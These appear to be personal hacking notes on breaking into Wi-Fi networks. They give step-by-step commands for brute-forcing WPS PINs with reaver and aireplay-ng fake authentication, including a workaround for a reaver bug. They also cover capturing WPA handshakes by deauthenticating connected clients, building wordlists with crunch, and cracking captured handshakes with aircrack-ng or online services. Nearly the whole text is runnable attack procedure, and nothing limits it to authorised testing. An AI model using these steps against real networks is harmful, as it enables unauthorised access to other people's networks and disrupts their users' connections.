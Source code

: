 WPS ENABLED AND PBC DISABLED
wpa and wpa2 have a wps feature which makes it easier to connect to it
if wps is enabled and there is no PBC(push button authentication) enabled, we can easily connect to the network
a wps enabled network doesnt need the passwd for connecting to it, but a 8 digit pin

wash --interface <mon interface> finds all networks with their wps on
aireplay-ng --fakeauth <time btw each attack> -a <target bssid> -h <my bssid> <mon interface> but don't start it yet, go to another terminal now
you can see your bssid as first 12 digits seperated by - beside unspec, using ifconfig

reaver --bssid <target> --channel <ch> --interface <mon interface> -vvv --no-associate and enter to start bruteforce
go to above terminal and start aireplay fake authentication attack

latest version of reaver may be buggy, send_packet called from resend_last_packet() send.c:161 is repeating itself very fast
then we have to use older version of reaver 1.6.1
open the folder where it is downloaded to 
cd Downloads/
chmod +x reaver to make it as a executable in permissions
./reaver --bssid <target> --channel <ch> --interface <mon interface> -vvv --no-associate
-vvv gives information about the process and no-associate will stop reaver from doing association automatically which is buggy
if cracked, we will get it at wps psk

HANDSHAKE CAPTURE
airodump-ng --band abg <mon interface> to find all 5hz and 2.4hz networks
airodump-ng --bssid <target> --channel <ch> --write <storing file for captured date> <mon interface> to store captured data
wait till a client connects to the network
do deauth attack to the client to speed the process

aireplay-ng --deauth 5 -a <target> -c <client> <mon interface>
this time no.of attacks should be small
stop attack when wpa handshake is captured

CRACKING CAPTURED HANDSHAKE
we can do this using wordlists or bruteforce(for number password)
we use crunch to create a own wordlist

crunch <min characters> <max> <characters like abc123!@#> -t <combination like a@@@b> -o<file to save>
for example, use
crunch 6 8 abc12 -o test.txt
use cat test.txt to view the file

aircrack-ng <handshake.cap cap file> -w <worldlist.txt wordlist file>
if the key is in the wordlist, only then will the password be found
you can use free websites like onlinehashcrack to do dictionary attacks
